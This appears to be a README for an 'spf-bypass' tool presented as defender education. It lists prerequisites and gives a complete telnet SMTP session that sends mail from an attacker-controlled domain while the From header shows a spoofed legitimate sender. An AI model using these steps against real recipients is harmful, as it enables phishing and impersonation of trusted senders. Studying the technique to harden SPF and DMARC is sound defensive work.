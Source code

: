 # spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see http://www.circleid.com/posts/782012_spammer_get_around_spf/ for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)
Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

The executable itself simply provides an interactive console for implementing the below telnet commands that can be executed on any Windows or Linux machine.

    telnet target.mailserver.com 25

    helo attackerdomain.com

    mail from: attacker@attackerdomain.com

    rcpt to: target@target.com.au

    data

    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>

    to: target@target.com.au

    subject: Presentation - Email Demo

    This is a test

    .
